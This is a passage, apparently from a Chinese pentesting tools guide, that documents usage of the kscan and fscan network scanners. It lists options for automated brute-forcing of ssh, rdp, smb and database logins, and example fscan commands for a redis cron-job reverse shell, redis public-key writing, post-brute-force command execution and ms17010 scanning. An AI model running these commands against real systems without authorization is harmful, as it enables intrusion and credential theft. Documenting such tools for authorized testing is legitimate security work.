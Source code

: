 ```
 --threads 线程参数,默认线程100,最大值为2048
 --path 指定请求访问的目录，只支持单个目录
 --host 指定所有请求的头部Host值
 --timeout 设置超时时间
 --encoding 设置终端输出编码，可指定为：gb2312、utf-8
 --match 对资产返回banner进行检索，存在关键字的，才会显示，否则不会显示
 --hydra 自动化爆破支持协议：ssh,rdp,ftp,smb,mysql,mssql,oracle,postgresql,mongodb,redis,默认会开启全部
hydra options:
 --hydra-user 自定义hydra爆破用户名:username or user1,user2 or file:username.txt
 --hydra-pass 自定义hydra爆破密码:password or pass1,pass2 or file:password.txt
 若密码中存在使用逗号的情况，则使用\,进行转义，其他符号无需转义
 --hydra-update 自定义用户名、密码模式，若携带此参数，则为新增模式，会将用户名和密码补充在默认字典后面。否则将替换默认字典。
 --hydra-mod 指定自动化暴力破解模块:rdp or rdp,ssh,smb
 
fofa options:
 --fofa-syntax 将获取fofa搜索语法说明
 --fofa-size 将设置fofa返回条目数，默认100条
 --fofa-fix-keyword 修饰keyword，该参数中的{}最终会替换成-f参数的值
```

```
kscan.exe -t 192.168.70.0/24

#出现乱码时输入
kscan.exe -t 192.168.70.0/24 --encoding gb2312
```

![image-20221230120034977](https://img.gyxnb.top/img/image-20221230120034977.png)

## fscan

一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服 务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、 web漏洞扫描、netbios探测、域控识别等功能。

```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描) 
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥) 
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)
fscan.exe -h 192.168.1.1/8 (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
```

![image-20221230120123061](https://img.gyxnb.top/img/image-20221230120123061.png)
